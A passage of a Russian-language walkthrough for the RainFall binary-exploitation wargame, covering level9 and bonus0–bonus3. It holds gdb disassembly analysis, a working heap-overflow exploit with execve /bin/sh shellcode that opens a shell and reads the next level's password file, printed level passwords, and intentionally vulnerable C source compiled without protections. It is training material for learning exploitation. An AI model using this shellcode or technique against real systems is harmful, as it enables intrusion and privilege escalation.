        if(strncmp(line, "reset", 5) == 0) {

                free(auth);

        }

        if(strncmp(line, "service", 6) == 0) {

                service = strdup(line + 7);

        }

        if(strncmp(line, "login", 5) == 0) {

                if(auth->auth) {

                        system("/bin/sh");

                } else {

                        fprintf(stdout, "Password:\n");

                }

        }

    }

    return 0;

}

</pre>
gcc -m32 -z execstack -Wl,-z,norelro -fno-stack-protector исходник_level.c -o level
</details> 

#
###### [вернуться к содержанию](#content)
<a name="lvl9"></a> 
# level9

<!-- <pre>
level0@RainFall:~$ su level9
<font color=grey>Password: c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a</font>

RELRO      STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
<font class=off>No RELRO   No canary found   NX disabled   No PIE</font>          <font class=on>No RPATH   No RUNPATH</font>   <font class=filePath>/home/user/level9/level9</font>
</pre> -->



<!-- <details> 
  <summary>  </summary>
</details>  -->
Проверяю содержимое домашней директории пользователя и свойства содержимого:
<details> 
  <summary> ls -la  </summary>

```sh
ls -la
# ||
# \/
# ...
# -rwsr-s---+ 1 bonus0 users  6720 Mar  6  2016 level9
```
---

</details> 

<details> 
  <summary> getfacl level9 </summary>
  
```sh
getfacl level9
# ||
# \/
# # file: level9
# # owner: bonus0
# # group: users
# # flags: ss-
# user::rwx
# user:level9:r-x
# user:bonus0:r-x
# group::---
# mask::r-x
# other::---
  ```
---

</details> 

<details> 
  <summary> ./level9 с аргументами и без аргументов </summary>

```sh
./level9          ; echo $?
# ||
# \/
# 1
./level9 AAAABBBB ; echo $?
# ||
# \/
# 11
./level9 AAAA BBBB; echo $?
# ||
# \/
# 11
```
---

</details> 

<details> 
  <summary> ltrace ./level9 с аргументами и без аргументов </summary>

```sh

ltrace ./level9
# ||
# \/
# __libc_start_main(0x80485f4, 1, 0xbffff6f4, 0x8048770, 0x80487e0 <unfinished ...>
# _ZNSt8ios_base4InitC1Ev(0x8049bb4, 0xb7d79dc6, 0xb7eebff4, 0xb7d79e55, 0xb7f4a330) = 0xb7fce990
# __cxa_atexit(0x8048500, 0x8049bb4, 0x8049b78, 0xb7d79e55, 0xb7f4a330) = 0
# _exit(1 <unfinished ...>
# +++ exited (status 1) +++

ltrace ./level9 AAAABBBB
# ||
# \/
# __libc_start_main(0x80485f4, 2, 0xbffff6e4, 0x8048770, 0x80487e0 <unfinished ...>
# _ZNSt8ios_base4InitC1Ev(0x8049bb4, 0xb7d79dc6, 0xb7eebff4, 0xb7d79e55, 0xb7f4a330) = 0xb7fce990
# __cxa_atexit(0x8048500, 0x8049bb4, 0x8049b78, 0xb7d79e55, 0xb7f4a330) = 0
# _Znwj(108, 0xbffff6e4, 0xbffff6f0, 0xb7d79e55, 0xb7fed280)           = 0x804a008
# _Znwj(108, 5, 0xbffff6f0, 0xb7d79e55, 0xb7fed280)                    = 0x804a078
# strlen("AAAABBBB")                                                   = 8
# memcpy(0x0804a00c, "AAAABBBB", 8)                                    = 0x0804a00c
# _ZNSt8ios_base4InitD1Ev(0x8049bb4, 11, 0x804a078, 0x8048738, 0x804a00c) = 0xb7fce4a0
# +++ exited (status 11) +++

ltrace ./level9 AAAA BBBB
# ||
# \/
# __libc_start_main(0x80485f4, 3, 0xbffff6e4, 0x8048770, 0x80487e0 <unfinished ...>
# _ZNSt8ios_base4InitC1Ev(0x8049bb4, 0xb7d79dc6, 0xb7eebff4, 0xb7d79e55, 0xb7f4a330) = 0xb7fce990
# __cxa_atexit(0x8048500, 0x8049bb4, 0x8049b78, 0xb7d79e55, 0xb7f4a330) = 0
# _Znwj(108, 0xbffff6e4, 0xbffff6f4, 0xb7d79e55, 0xb7fed280)           = 0x804a008
# _Znwj(108, 5, 0xbffff6f4, 0xb7d79e55, 0xb7fed280)                    = 0x804a078
# strlen("AAAA")                                                       = 4
# memcpy(0x0804a00c, "AAAA", 4)                                        = 0x0804a00c
# _ZNSt8ios_base4InitD1Ev(0x8049bb4, 11, 0x804a078, 0x8048738, 0x804a00c) = 0xb7fce4a0
# +++ exited (status 11) +++
```
---

</details> 

<details><summary> gdb level9 -> disassemble на список функций </summary>

```sh
gdb level9

(gdb) info functions
# ||
# \/
# ...
# 0x080485f4  main
# 0x080484f0  _exit
# 0x08048530  operator new(unsigned int)
# ...
# 0x08048510  memcpy
# 0x08048520  strlen
# ...
# 0x080486f6  N::N(int)
# 0x080486f6  N::N(int)
# 0x0804870e  N::setAnnotation(char*)
# 0x0804873a  N::operator+(N&)
# 0x0804874e  N::operator-(N&)
# 0x080484d0  _ZNSt8ios_base4InitC1Ev@plt
# 0x08048500  _ZNSt8ios_base4InitD1Ev

```
---
</details> 
<br><br>

Коротко:
<details> 
  <summary> class N </summary>

```cpp
{

public:

N::N(int);
N::operator+(N&);
N::operator-(N&);
N::setAnnotation(char* str) { 
    memcpy(N_буфер, str, strlen(str)); }
                                 // смотреть ниже разворот (*экземпляр_N5).setAnnotation(argv[1])

private:

int число;                       // смотреть разворот функции main (disassemble main) пункт 3 <main+42> и пункт 4 <main+76>, пункты 6.4.2., 6.4.3.
char N_буфер[какого-то размера]; // смотреть ниже (*экземпляр_N5).setAnnotation(argv[1])
                                 // или 
                                 // disassemble 0x8048714

};
```
---

</details> 

<details> 
  <summary> Функция main() {
  &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; 
  &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; 
  &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; // disassemble main в развороте</summary>

```sh
(gdb) disassemble main
# Dump of assembler code for function main:
# 1. создается стековый фрейм (stack frame) или кадр стека:
0x080485f4 <+0>:     push   %ebp              # сохраняет в стеке содержимое регистра EBP
0x080485f5 <+1>:     mov    %esp,%ebp         # присваивает регистру EBP значение ESP
0x080485f7 <+3>:     push   %ebx              # сохраняет в стеке содержимое регистра EBX
0x080485f8 <+4>:     and    $0xfffffff0,%esp  # выравнивание стека (по 16 байт)
0x080485fb <+7>:     sub    $0x20,%esp        # выделяется 20 (hex) = 32 (dec) байт под локальные переменные

# 2. Проверяется введенное количество аргументов:
# 
#   ( if (argc < 2) { _exit(1);} )
# 
# 2.1. Сравнение:
0x080485fe <+10>:    cmpl   $0x1,0x8(%ebp)         # argc сравнивается с 1
                           #       ____|
                           #       ||    
                           # argc: \/                       
                           # x $ebp+8 -> 0xbffff640:     0x2
                           # argv
                           # x $ebp+12
                           # 0xbffff644:     0xbffff6d4
                           #   argv[0] x/s  *0xbffff6d4
                           #                 0xbffff814:      "/home/user/level9/level9"
                           #   argv[1] x/s  *0xbffff6d8
                           #                 0xbffff82d:      "AAAA"

0x08048602 <+14>:    jg     0x8048610 <main+28>   # если argc > 1, продолжить программу с <main+28> (пункт 3.)
# 2.2. Подготовка к вызову _exit():
0x08048604 <+16>:    movl   $0x1,(%esp)           # иначе если argc < 2, передать аргумент 1 в _exit()
0x0804860b <+23>:    call   0x80484f0 <_exit@plt> # вызов _exit(1)

# 3. Создание первого эеземпляра класса N (назову его экземпляр_N5 - по переданному далее в конструктор аргументу 5):
# Выделена память под экземплар класса:
0x08048610 <+28>:    movl   $0x6c,(%esp)   # 6c(hex)=108(dec)
0x08048617 <+35>:    call   0x8048530 <_Znwj@plt> # new для класса на 108 байт
# Заполнен экземпляр класса:
0x0804861c <+40>:    mov    %eax,%ebx      # адрес выделенной памяти сохранен в регистр ebx 
                                           # x $eax -> 0x804a008

0x0804861e <+42>:    movl   $0x5,0x4(%esp) # число 5 передано                2м аргументом     
0x08048626 <+50>:    mov    %ebx,(%esp)    # адрес памяти для класса передан 1м аргументом
0x08048629 <+53>:    call   0x80486f6 <_ZN1NC2Ei> # вызван конструктор класса N::N(int n=5) ()
# N::N(int) ()
# Breakpoint 4, 0x080486f9 in N::N(int) ()
(gdb) disassemble 0x80486f6
# Dump of assembler code for function _ZN1NC2Ei:
#    0x080486f6 <+0>:     push   %ebp
#    0x080486f7 <+1>:     mov    %esp,%ebp
# => 0x080486f9 <+3>:     mov    0x8(%ebp),%eax
#    0x080486fc <+6>:     movl   $0x8048848,(%eax)
#    0x08048702 <+12>:    mov    0x8(%ebp),%eax
#    0x08048705 <+15>:    mov    0xc(%ebp),%edx  #x $edx 0x5
#    0x08048708 <+18>:    mov    %edx,0x68(%eax) # в 68(hex)=104(dec) кладу значение 5
#    0x0804870b <+21>:    pop    %ebp
#    0x0804870c <+22>:    ret    
# End of assembler dump.
0x0804862e <+58>:    mov    %ebx,0x1c(%esp) # адрес экземпляр_N5 класса N сохранен на стек

# 4. Создание второго эеземпляра класса N (назову его экземпляр_N6):
0x08048632 <+62>:    movl   $0x6c,(%esp)   # 6c(hex)=108(dec)
0x08048639 <+69>:    call   0x8048530 <_Znwj@plt> # new для класса на 108 байт
0x0804863e <+74>:    mov    %eax,%ebx      # адрес выделенной памяти сохранен в регистр ebx 
                                           # x $eax -> 0x804a078

0x08048640 <+76>:    movl   $0x6,0x4(%esp) # число 6 передано                2м аргументом     
0x08048648 <+84>:    mov    %ebx,(%esp)    # адрес памяти для класса передан 1м аргументом
0x0804864b <+87>:    call   0x80486f6 <_ZN1NC2Ei> # вызван конструктор класса N::N(int n=6) ()
0x08048650 <+92>:    mov    %ebx,0x18(%esp) # адрес экземпляр_N6 класса N сохранен на стек
# аналогично 3 пункту

# 5. N::setAnnotation(char*):
0x08048654 <+96>:    mov    0x1c(%esp),%eax # адрес экземпляр_N5 класса N помещен в регистр eax
0x08048658 <+100>:   mov    %eax,0x14(%esp) # экземпляр_N5 помещен на стек esp+14

0x0804865c <+104>:   mov    0x18(%esp),%eax # адрес экземпляр_N6 класса N помещен в регистр eax
0x08048660 <+108>:   mov    %eax,0x10(%esp) # экземпляр_N6 передан   3м аргументом

0x08048664 <+112>:   mov    0xc(%ebp),%eax  # указатель на argv помещен в регистр eax
                  # x    $eax  -> 0xbffff6d4: 0xbffff814
                  # x/s *$eax -> 0xbffff814: "/home/user/level9/level9"
0x08048667 <+115>:   add    $0x4,%eax       # смещение до argv[1] аргумента переданного в программу
                  # например, программа запущена: "./level9 AAAA"
                  # x/s *($eax+4)
                  # 0xbffff82d:      "AAAA"
0x0804866a <+118>:   mov    (%eax),%eax     # в eax положенио значение argv[1] строка "AAAA"
0x0804866c <+120>:   mov    %eax,0x4(%esp)  # значение argv[1]  
                                            # строка "AAAA" передана 2м аргументом

0x08048670 <+124>:   mov    0x14(%esp),%eax # получен адрес экземпляр_N5
0x08048674 <+128>:   mov    %eax,(%esp)     # экземпляр_N5 передан   1м аргументом
0x08048677 <+131>:   call   0x804870e <_ZN1N13setAnnotationEPc> # 
                                            # вызов экземпляр_N5.setAnnotation(argv[1]);
                            # setAnnotation(argv[1]) - это публичная функция-член класса N, 
                            # а это значит, что вызов функции будет таким:
                            # 1й_аргумент_экземпляр_класса.функция_член_класса(2й,3й,...,остальные переданные аргументы)

# 6. Подготовка и вызов (экземпляр_N5 + экземпляр_N6):
# 
# 6.1. Подготовка N::operator+(N&) () 
#      для дальнейшего вызова в <main+159> 
#      (помещено в регистр edx):
0x0804867c <+136>:   mov    0x10(%esp),%eax # адрес 0x804a078 экземпляр_N6 помещен в eax
0x08048680 <+140>:   mov    (%eax),%eax     # данные из экземпляр_N6 помещены в eax
0x08048682 <+142>:   mov    (%eax),%edx     # функция класса N::operator+(N&) ():
                                            # x $eax -> 0x8048848 <_ZTV1N+8>:   0x0804873a
                                            # x -> 0x804873a <_ZN1NplERS_>:        0x8be58955
# Breakpoint 1, 0x0804873a in N::operator+(N&) ()
# 
# 6.2. Получение данных из экземпляр_N6
0x08048684 <+144>:   mov    0x14(%esp),%eax # адрес 0x804a008 экземпляр_N5 помещен в eax
0x08048688 <+148>:   mov    %eax,0x4(%esp)  # экземпляр_N5 передан 2м аргументом
# 
# 6.3. Получение данных из экземпляр_N5
0x0804868c <+152>:   mov    0x10(%esp),%eax # адрес 0x804a078 экземпляр_N6 помещен в eax
0x08048690 <+156>:   mov    %eax,(%esp)     # экземпляр_N6 передан 1м аргументом
# 
# 6.4. Вызов функции N::operator+(N&) ():
0x08048693 <+159>:   call   *%edx
# Breakpoint 1, 0x0804873a in N::operator+(N&) ()
# (gdb) disassemble 0x0804873a
# Dump of assembler code for function _ZN1NplERS_:
# 
# 6.4.1. создается стековый фрейм (stack frame) или кадр стека:
#  0x0804873a <+0>:  push %ebp
#  0x0804873b <+1>:  mov  %esp,%ebp
# 
# 6.4.2. получение данных из экземпляр_N6:
#  0x0804873d <+3>:  mov  0x8(%ebp),%eax  # получение адреса экземпляр_N6
#  0x08048740 <+6>:  mov  0x68(%eax),%edx # 104 ячейка памяти x $edx -> 0x6
#                        # x $eax    -> 0x804a078
#                        # x $eax+68 -> 6 (число 6 - приватные данные экземпляра класса N)
# 
# 6.4.3. получение данных из экземпляр_N5:
#  0x08048743 <+9>:  mov 0xc(%ebp),%eax   # получение адреса экземпляр_N5
#  0x08048746 <+12>: mov 0x68(%eax),%eax  # 104 ячейка памяти x $eax -> 0x5
#                        # x $eax    -> 0x804a008
#                        # x $eax+68 -> 5 (число 5 - приватные данные экземпляра класса N)
# 
#  0x08048749 <+15>: add %edx,%eax        # сложение (6 + 5 = 11), теперь eax = 11
#
# 6.4.4. Завершение и возврат из функции N::operator+(N&) ()
#  0x0804874b <+17>: pop %ebp
#  0x0804874c <+18>: ret 
# End of assembler dump.

# 7. Завершение и возврат из main()
0x08048695 <+161>:   mov    -0x4(%ebp),%ebx
0x08048698 <+164>:   leave  
0x08048699 <+165>:   ret    
End of assembler dump.
```
</details> 

```cpp
    if (argc < 2) { _exit(1);}       // 2. пункт disassemble main

    N *экземпляр_N5 =                // 3. <main+58> на стек сохранен указатель на экземпляр класса
                      new N(5);      // 3. new <main+35>, конструктор класса N <main+53>

    N *экземпляр_N6 =                // 4. <main+92> на стек сохранен указатель на экземпляр класса 
                      new N(6);      // 4. new <main+68>, конструктор класса N <main+87>

                                     // пункт 5.
    (*экземпляр_N5).setAnnotation(argv[1]); 

    return (                         // пункт 7.
       экземпляр_N6 + экземпляр_N5 );// пункт 6.  <main+159> N::operator+(N&);

}
```
<br>

В main() интересна строка с вызовом функции `N::setAnnotation(char*)`:
<details> 
  <summary> (*экземпляр_N5).setAnnotation(argv[1])</summary>

```sh
(gdb) x 0x804870e
0x804870e <_ZN1N13setAnnotationEPc>:    0x83e58955
# 1. создается стековый фрейм (stack frame) или кадр стека:
0x804870e <...+0>:  push  %ebp              # сохраняет в стеке содержимое регистра EBP
0x804870f <...+1>:  mov   %esp,%ebp         # присваивает регистру EBP значение ESP
0x8048711 <...+3>:  sub   $0x18,%esp        # выделяется 18 (hex) = 24 (dec) байт под локальные переменные

# 2. Подготовка и вызов strlen():
0x8048714 <...+6>:  mov   0xc(%ebp),%eax    # переданная в функцию строка помещена в регистр eax (например N_экземпляр.setAnnotation("AAAA"))
                                            # x/s $eax 0xbffff82d:      "AAAA"
0x8048717 <...+9>:  mov   %eax,(%esp)       # длина строки передана в качестве аргумента
0x804871a <...+12>: call  0x8048520 <strlen@plt> # вызов strlen("AAAA")
                                            # в данной программе:
                                            # strlen(argv[1])

0x804871f <...+17>: mov   0x8(%ebp),%edx    # в регистр edx помещен объект класса N
                          # (gdb) x $edx
                          # 0x804a008:      0x8048848 <_ZTV1N+8>
0x8048722 <...+20>: add   $0x4,%edx         # смещение на буфер для строки член класса N
                          # x/s ($edx+4)
                          # 0x804a00c:       ""

# 3. Подготовка и вызов memcpy():
0x8048725 <...+23>: mov   %eax,0x8(%esp)    # значение, возвращенное вызовом strlen(argv[1]))
                                            # длина argv[1] строки передана   3м аргументом
0x8048729 <...+27>: mov   0xc(%ebp),%eax    # переданная в функцию argv[1] строка помещена в eax 
0x804872c <...+30>: mov   %eax,0x4(%esp)    # argv[1] строка передана         2м аргументом
0x8048730 <...+34>: mov   %edx,(%esp)       # член класса N буфер для строки  1м аргументом передан
0x8048733 <...+37>: call  0x8048510 <memcpy@plt> # вызов memcpy(char* N_буфер, argv[1], strlen(argv[1]))

# 4. Завершение и возврат из функции:
0x8048738 <...+42>: leave  
0x8048739 <...+43>: ret 
```
</details> 

Как видно из анализа выше, уязвимость в `memcpy()`: \
в `main()` вызвана `N::setAnnotation(char*)`, внутри которой `memcpy(N_буфер, argv[1], strlen(argv[1]))` и нет проверки на переполнение `N_буфер` от `argv[1]`.

В то же время в программе нет функции, вызывающей оболочку, значит буду использовать shellcode.

Уязвимость:
1. Использование `memcpy()` без проверки допустимой длины для копирования.

Атака:
1. Переполнение буфера и расчет смещения.
2. Выбор для исполнения в буфере shellcode.
3. Подстановке шеллкода и нужных адресов в переполненный буфер.

Атакую:

1. Расчет смещения EIP (адреса возврата) \
[Воспользуюсь сайтом.](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/)

```sh
(gdb) r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
# ||
# \/
# Program received signal SIGSEGV, Segmentation fault.
# 0x08048682 in main ()
(gdb) x $eax
# ||
# \/
# 0x41366441:     Cannot access memory at address 0x41366441
```

Нужное смещение 108 байт.

2. Использую [shellcode, что и в предыдущих заданиях](#2-level1-shellcode-на-стеке): \
`"\x68\xcd\x80\x68\x68\xeb\xfc\x68\x6a\x0b\x58\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xeb\xe1"`. Шеллкод занимает 32 байта.

3. Адрес буфера \
В программе происходит вызов `экземпляр_N5.setAnnotation(argv[1]);`.\
Адрес `экземпляр_N5` 0x804a078. \
Выше в пункте 2 анализа disassemble (*экземпляр_N5).setAnnotation(argv[1]) видно адрес буфера экземпляра класса: 0x804a00c .

Этот адрес будет стоять в конце строки с атакой, чтобы подменить им вызов  `operator+(N&)` (`0x08048693 <+159>:   call   *%edx` - пункт 6.4. disassemble main() ).

А также из анализа main() видно, что `*%edx` (есть `*`), значит при переходе по этому адресу надо будет вновь пройти по адресу на который попаду, только потом в буфере будут выполняться последовательно инструкции (`call`).

Итоговая атака выглядит так: \
`адрес кучи` + `шеллкод` + `мусор или \x90` + `адрес кучи`

Атакую:
```sh
./level9 $(python -c 'print "\x0c\xa0\04\x08" + "\x68\xcd\x80\x68\x68\xeb\xfc\x68\x6a\x0b\x58\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xeb\xe1" + "A" * 72 + "\x0c\xa0\04\x08"')

whoami
# || 
# \/
# bonus0
cat /home/user/bonus0/.pass
# || 
# \/
# f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```
Уровень пройден!
```sh
su bonus0
# Password: f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```

<br><br>

<details> 
  <summary> Под этой строкой в развороте исходник и команда для компиляции: </summary>
<pre>

#include "iostream"
#include "cstring"
 
class N {

public:

    N(int x) : number(x) {}
    void setAnnotation(char *a) {memcpy(annotation, a, strlen(a));}
    virtual int operator+(N &r) {return number + r.number;}
    virtual int operator-(N &r) {return number - r.number;}

private:

    char annotation[100];
    int number;

};
 
int main(int argc, char **argv)
{

    if(argc < 2) _exit(1);
 
    N *x = new N(5);
    N *y = new N(6);
    N &five = *x, &six = *y;
 
    five.setAnnotation(argv[1]);
 
    return six + five;

}

</pre>
g++ -m32 -z execstack -Wl,-z,norelro -fno-stack-protector исходник_level.c -o level
</details> 

#
###### [вернуться к содержанию](#content)
<a name="bonus0"></a> 
# bonus0

<!-- <pre>
level0@RainFall:~$ su bonus0
<font color=grey>Password: f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728</font>

RELRO      STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
<font class=off>No RELRO   No canary found   NX disabled   No PIE</font>          <font class=on>No RPATH   No RUNPATH</font>   <font class=filePath>/home/user/bonus0/bonus0</font>
</pre> -->



Проверяю содержимое домашней директории пользователя и свойства содержимого: 
<details><summary> ls -la </summary>

```sh
ls -la
# ||
# \/
# ...
# -rwsr-s---+ 1 bonus1 users  5566 Mar  6  2016 bonus0
```
---
</details>
<details><summary> getfacl bonus0 </summary>

```sh
getfacl bonus0
# ||
# \/
# # file: bonus0
# # owner: bonus1
# # group: users
# # flags: ss-
# user::rwx
# user:bonus0:r-x
# user:bonus1:r-x
# group::---
# mask::r-x
# other::---
```
---

</details>
<details><summary> ./bonus0 </summary>

```sh
./bonus0
# ||
# \/
#  - 
# 
#  - 
# 
# 

./bonus0 AAAA
# ||
# \/
#  - 
# 
#  - 
# 
#  

./bonus0
# ||
# \/
#  - 
# AAAA
#  - 
# AAAA
# ||
# \/
# AAAA AAAA

```
---

</details>
<details><summary> ltrace ./bonus0 </summary>

```sh
ltrace ./bonus0
# __libc_start_main(0x80485a4, 1, 0xbffff6f4, 0x80485d0, 0x8048640 <unfinished ...>
# puts(" - " - 
# )                                                          = 4
# read(0, AAAA
# "AAAA\n", 4096)                                              = 5
# strchr("AAAA\n", '\n')                                               = "\n"
# strncpy(0xbffff5d8, "AAAA", 20)                                      = 0xbffff5d8
# puts(" - " - 
# )                                                          = 4
# read(0, BBBB
# "BBBB\n", 4096)                                              = 5
# strchr("BBBB\n", '\n')                                               = "\n"
# strncpy(0xbffff5ec, "BBBB", 20)                                      = 0xbffff5ec
# strcpy(0xbffff626, "AAAA")                                           = 0xbffff626
# strcat("AAAA ", "BBBB")                                              = "AAAA BBBB"
# puts("AAAA BBBB"AAAA BBBB
# )                                                    = 10
# +++ exited (status 0) +++
```
---

</details>
<details><summary> gdb bonus0 -> info functions </summary>

```sh
gdb bonus0
(gdb) info functions
# ||
# \/
# Non-debugging symbols:
# 0x08048334  _init
# 0x08048380  read
# 0x08048390  strcat
# 0x080483a0  strcpy
# 0x080483b0  puts
# 0x080483c0  __gmon_start__
# 0x080483d0  strchr
# 0x080483e0  __libc_start_main
# 0x080483f0  strncpy
# 0x08048400  _start
# 0x08048430  __do_global_dtors_aux
# 0x08048490  frame_dummy
# 0x080484b4  p
# 0x0804851e  pp
# 0x080485a4  main
# 0x080485d0  __libc_csu_init
# 0x08048640  __libc_csu_fini
# 0x08048642  __i686.get_pc_thunk.bx
# 0x08048650  __do_global_ctors_aux
# 0x0804867c  _fini
```
---
</details>

<!-- <details> 
  <summary>  </summary>
</details>  -->

<details> 
  <summary> Под этой строкой в развороте исходник и команда для компиляции: </summary>
<pre>

#include "stdio.h"
#include "string.h"
 
void  p(char *name, char *msg){

  char buf[4096];
 
  puts(msg);
  read(0, buf, sizeof buf);
  *strchr(buf, '\n') = 0;
  strncpy(name, buf, 20);

}
 
void  pp(char *fullname) {

  char last[20];
  char first[20];
 
  p(first, " - ");
  p(last, " - ");
 
  strcpy(fullname, first);
  strcat(fullname, " ");
  strcat(fullname, last);

}
 
int main(int argc, char **argv){

  char fullname[42];
 
  pp(fullname);
  printf("%s\n", fullname);
  return 0;

}

</pre>
gcc -m32 -z execstack -Wl,-z,norelro -fno-stack-protector  исходник_level.c -o level
</details> 

#
###### [вернуться к содержанию](#content)
<a name="bonus1"></a> 
# bonus1

<!-- <pre>
level0@RainFall:~$ su bonus1
<font color=grey>Password: cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9</font>

RELRO      STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
<font class=off>No RELRO   No canary found   NX disabled   No PIE</font>          <font class=on>No RPATH   No RUNPATH</font>   <font class=filePath>/home/user/bonus1/bonus1</font>
</pre> -->

<!--  -->

<!-- Проверяю содержимое домашней директории пользователя и свойства содержимого: 
<details><summary> ls -la </summary>

```sh
```
---
</details>
<details><summary> getfacl level8 </summary>

```sh
```
---

</details>
<details><summary> ./level8 </summary>

```sh
```
---

</details>
<details><summary> ltrace ./level8 </summary>

```sh
```
---

</details>
<details><summary> gdb level8 -> disassemble на список функций </summary>

```sh
```
---
</details> -->

<details> 
  <summary> Под этой строкой в развороте исходник и команда для компиляции: </summary>
<pre>

#include "stdio.h"
#include "string.h"
#include "unistd.h"
 
int main(int argc, char **argv)
{

    int count = atoi(argv[1]);
    int buf[10];
  
    if(count >= 10 ) return 1;
  
    memcpy(buf, argv[2], count * sizeof(int));
    if(count == 0x574f4c46) {

      execl("/bin/sh", "sh" ,NULL);

    }
    return 0;

}

</pre>
gcc -m32 -z execstack -Wl,-z,norelro -fno-stack-protector исходник_level.c -o level
</details> 

#
###### [вернуться к содержанию](#content)
<a name="bonus2"></a> 
# bonus2

<!-- <pre>
level0@RainFall:~$ su bonus2
<font color=grey>Password: 579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245</font>

RELRO      STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
<font class=off>No RELRO   No canary found   NX disabled   No PIE</font>          <font class=on>No RPATH   No RUNPATH</font>   <font class=filePath>/home/user/bonus2/bonus2</font>
</pre> -->

<!--  -->

<!-- Проверяю содержимое домашней директории пользователя и свойства содержимого: 
<details><summary> ls -la </summary>

```sh
```
---
</details>
<details><summary> getfacl level8 </summary>

```sh
```
---

</details>
<details><summary> ./level8 </summary>

```sh
```
---

</details>
<details><summary> ltrace ./level8 </summary>

```sh
```
---

</details>
<details><summary> gdb level8 -> disassemble на список функций </summary>

```sh
```
---
</details> -->

<details> 
  <summary> Под этой строкой в развороте исходник и команда для компиляции: </summary>
<pre>

#include "stdio.h"
#include "stdlib.h"
#include "string.h"

enum{

    EN,
    FN,
    NL,

};

int language = EN;

struct UserRecord{

    char name[40];
    char password[32];
    int id;

};

void    greetuser(struct UserRecord user){

    char greeting[64];
    switch(language){

        case EN:
                strcpy(greeting, "Hello "); break;
        case FN:
                strcpy(greeting, "Hyvää päivää "); break;
        case NL:
                strcpy(greeting, "Goedemiddag! "); break;

    }

    strcat(greeting, user.name);
    printf("%s\n", greeting);

}

int   main(int argc, char **argv, char **env){

    if(argc != 3) {

        return 1;

    }

    struct UserRecord user = {0};
    strncpy(user.name, argv[1], sizeof(user.name));
    strncpy(user.password, argv[2], sizeof(user.password));

    char *envlang = getenv("LANG");
    if(envlang)

            if(!memcmp(envlang, "fi", 2))

                    language = FN;

            else if(!memcmp(envlang, "nl", 2))

                    language = NL;

    greetuser(user);

}

</pre>
gcc -m32 -z execstack -Wl,-z,norelro -fno-stack-protector исходник_level.c -o level
</details> 

#
###### [вернуться к содержанию](#content)
<a name="bonus3"></a> 
# bonus3

<!-- <pre>
level0@RainFall:~$ su bonus3
<font color=grey>Password: 71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587</font>

RELRO      STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
<font class=off>No RELRO   No canary found   NX disabled   No PIE</font>          <font class=on>No RPATH   No RUNPATH</font>   <font class=filePath>/home/user/bonus3/bonus3</font>
</pre> -->

<!--  -->

<!-- Проверяю содержимое домашней директории пользователя и свойства содержимого: 
<details><summary> ls -la </summary>

```sh
```
---
</details>
<details><summary> getfacl level8 </summary>

```sh
```
---

</details>
<details><summary> ./level8 </summary>

```sh
```
---

</details>
<details><summary> ltrace ./level8 </summary>

```sh
```
---

</details>
<details><summary> gdb level8 -> disassemble на список функций </summary>

```sh
```
---
</details> -->

<details> 
  <summary> Под этой строкой в развороте исходник и команда для компиляции: </summary>
<pre>

#include "stdio.h"
#include "stdlib.h"
#include "string.h"
#include "unistd.h"

#define FILE_PASS "/home/user/end/.pass"

int main(int argc, char **argv){

    FILE *fp = fopen(FILE_PASS, "r");
    struct {char pass[66], msg_err[66]} pwfile = {{0}};
    char ptr[0];

    if(!fp || argc != 2)

            return -1;

    fread(pwfile.pass, 1, 66, fp);
    pwfile.pass[65] = 0;
    ptr[atoi(argv[1])] = 0;
    fread(pwfile.msg_err, 1, 65, fp);
    fclose(fp);

    if(!strcmp(pwfile.pass, argv[1]))

            execl("/bin/sh", "sh", 0);

    else

            puts(pwfile.msg_err);

    return 0;

}

</pre>
gcc -m32 -fno-stack-protector -Wl,-z,norelro исходник_level.c -o level
</details> 


Уязвимость Use-After-Free
https://sploitfun.wordpress.com/2015/06/09/off-by-one-vulnerability-heap-based/

